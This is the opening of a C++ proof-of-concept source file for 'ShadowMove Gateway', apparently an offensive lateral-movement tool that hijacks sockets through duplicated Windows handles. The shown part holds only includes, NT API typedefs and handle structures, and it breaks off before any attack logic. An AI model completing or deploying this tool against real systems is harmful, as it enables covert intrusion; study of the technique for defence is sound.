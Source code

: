 ```cpp
// PoC of ShadowMove Gateway by Juan Manuel Fernández (@TheXC3LL) 

#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <winsock2.h>
#include <Windows.h>
#include <stdio.h>

#pragma comment(lib,"WS2_32")

// Most of the code is adapted from https://github.com/Zer0Mem0ry/WindowsNT-Handle-Scanner/blob/master/FindHandles/main.cpp
#define STATUS_INFO_LENGTH_MISMATCH 0xc0000004
#define SystemHandleInformation 16
#define ObjectNameInformation 1

typedef NTSTATUS(NTAPI* _NtQuerySystemInformation)(
	ULONG SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength
	);
typedef NTSTATUS(NTAPI* _NtDuplicateObject)(
	HANDLE SourceProcessHandle,
	HANDLE SourceHandle,
	HANDLE TargetProcessHandle,
	PHANDLE TargetHandle,
	ACCESS_MASK DesiredAccess,
	ULONG Attributes,
	ULONG Options
	);
typedef NTSTATUS(NTAPI* _NtQueryObject)(
	HANDLE ObjectHandle,
	ULONG ObjectInformationClass,
	PVOID ObjectInformation,
	ULONG ObjectInformationLength,
	PULONG ReturnLength
	);

typedef struct _SYSTEM_HANDLE
{
	ULONG ProcessId;
	BYTE ObjectTypeNumber;
	BYTE Flags;
	USHORT Handle;
	PVOID Object;
	ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION
{
	ULONG HandleCount;
	SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef struct _UNICODE_STRING
{
	USHORT Length;
	USHORT MaximumLength;
	PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;


typedef enum _POOL_TYPE
```